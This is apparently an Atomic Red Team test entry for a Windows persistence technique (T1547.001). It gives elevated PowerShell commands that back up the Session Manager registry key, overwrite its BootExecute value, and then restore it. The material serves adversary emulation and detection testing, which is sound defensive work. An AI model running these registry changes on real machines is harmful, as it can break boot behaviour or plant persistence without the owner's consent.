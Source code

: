 
**auto_generated_guid:** befc2b40-d487-4a5a-8813-c11085fb5672





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| registry_value | Registry value to set | string | autocheck autoche *|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
if (!(Test-Path "$PathToAtomicsFolder\T1547.001\src\SessionManagerBackup.reg")) { reg.exe export "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager" "$PathToAtomicsFolder\T1547.001\src\SessionManagerBackup.reg" /y }
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager" -Name "BootExecute" -Value "#{registry_value}" -Type MultiString
```

#### Cleanup Commands:
```powershell
reg.exe import "$PathToAtomicsFolder\T1547.001\src\SessionManagerBackup.reg"
Remove-Item -Path "$PathToAtomicsFolder\T1547.001\src\SessionManagerBackup.reg" -Force
```





<br/>

